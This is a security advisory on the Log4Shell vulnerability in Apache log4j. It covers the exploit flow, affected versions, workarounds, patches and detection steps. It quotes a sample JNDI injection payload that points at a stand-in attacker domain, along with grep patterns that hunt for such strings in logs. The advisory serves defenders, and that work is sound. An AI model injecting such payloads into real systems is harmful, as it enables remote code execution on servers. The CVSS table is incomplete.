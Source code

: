 ## NVISO CSIRT ADVISORY
**Last update: 2021-12-13**


## SUMMARY
In this advisory we provide an overview of the recently discovered vulnerability in Apache log4j and how attackers can abuse it. We will update this blog post as more information is released. 

A high severity vulnerability in Apache log4j was disclosed publicly on 9 December 2021. This vulnerability was initially discovered by Chen Zhaojun of the Alibaba Cloud Security Team.

Log4j is an open-source Java logging library that is widely used in many applications and is present as a dependency in many services. This includes enterprise applications and numerous cloud services. 
 
This vulnerability allows for unauthenticated remote code execution using the following flow:
1.	Attacker sends data to the server (via any protocol). 
2.	The server (with log4j enabled) logs the data in the request, containing the malicious payload: `${jndi:ldap//attackerowneddomain.com/a}`
3.	The log4j vulnerability is triggered by this payload and the server makes a request to the attackerowneddomain.com via JNDI (Java Naming and Directory Interface). This also works using RMI (see link to SANS ISC post below)
5.	The server owned by the attacker responds to the request with a path to a remote (malicious) Java class file. This file is then injected in in the server process
6.	This malicious Java class file upon execution can trigger arbitrary code execution

## WHY THIS MATTERS
Given how widespread this library is used and how easy the exploit is, the impact of this vulnerability can be seen as very severe. 

On 10 December 2021 a PoC (Proof of Concept) was released for this vulnerability (https://github.com/tangxiaofeng7/apache-log4j-poc). Currently extensive scanning is being performed and a number of active exploitation attempts have been observed as well. In a first stage this vulnerability has been seen being used to deploy cryptocurrency mining software, this vulnerability will however be abused to gain an foothold in your network that can be used by a variety of attacks, now, or at a later stage (e.g. ransomware attacks, data theft, etc.). 


## RECOMMENDED ACTIONS
Critical risk vulnerabilities should be fully patched as soon as possible. 

Given the ease of exploitation it is strongly suggested to apply the patches for internet facing software immediately. Applying the patches to your internal software is recommended to be done at your earliest convenience.


## AFFECTED PRODUCTS
All Apache log4j versions from 2.0 up to and including 2.14.1 

All frameworks that use these versions (e.g. Apache Structs2, Apache Solr, Apache Druid, Apache Flink, etc.)


## AVAILABLE WORKAROUNDS
It is important to note that as part of the exploitation of this vulnerability, the vulnerable server must make an outbound request to the attacker owned server. Limiting outbound internet connectivity from web servers would prevent the full exploit chain. 

Sanitize log data before processing into Log4j

Specific mitigations:
- For version >=2.10: set `log4j2.formatMsgNoLookups` to `true`
- For releases from 2.0 to 2.10.0: you may want to remove the LDAP class from log4j completely by issuing the following command: `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`
- For certain JVM Versions, it is possible to set `com.sun.jndi.rmi.object.trustURLCodebase` and `com.sun.jndi.cosnaming.object.trustURLCodebase` to false to mitigate the vulnerability. Some JVM versions already have this as default setting


Several of the above recommendations have been nicely visualized by the Swiss Government CERT: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/

## AVAILABLE PATCHES
On December 10, 2021, version 2.15.0 RC2 was released. 
(https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

## DETECTIONS
- Review logs generated for Log4j processing and focus on JNDI and RMI entries
- Review outbound connections of system running Log4j
- YARA rule by Florian Roth: https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b
- Log4shell detector by Florian Roth: https://github.com/Neo23x0/log4shell-detector
- Scan your servers for potentially vulnerable libraries based on the hashes provided by Mubix: https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes/

Search logs using following commands (the above mentioned Log4shell detector will give you a better view):

`sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log`

`sudo find /var/log -name \*.gz -print0 | xargs -0 zgrep -E -i '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+'`


## CVSS SCORE AND CVE ID
|CVE ID	|Severity	|CVSSv3 Score|
|-------|-----------|------------|
|CVE-2021-44228	|Critical	|X	|X	|

Note: this vulnerability is also known as log4shell
NIST: https://nvd.nist.gov/vuln/detail/CVE-2021-44228

MITRE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228



## MORE INFORMATION
More information and detailed explanations on the working of this vulnerability can be found on the links below.
- Log4Shell: RCE 0-day exploit found in log4j, a popular Java logging package: https://www.lunasec.io/docs/blog/log4j-zero-day/
- SANS ISC - RCE in log4j, Log4Shell, or how things can get bad quickly: https://isc.sans.edu/forums/diary/RCE+in+log4j+Log4Shell+or+how+things+can+get+bad+quickly/28120/
- Greynoise is tracking the RCE attempts: https://www.greynoise.io/viz/query/?gnql=tags%3A%22Apache%20Log4j%20RCE%20Attempt%22
- CIRCL.LU TR-65 - Vulnerabilities and Exploitation of Log4j (Remote code injection in Log4j): https://www.circl.lu/pub/tr-65/
- Security advisories from different vendors linked to CVE-2021-44228 (do note that not all vendors listed here are vulnerable, the link can also indicate a general statement): https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592
- Advisory by the Swiss Government CERT: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/
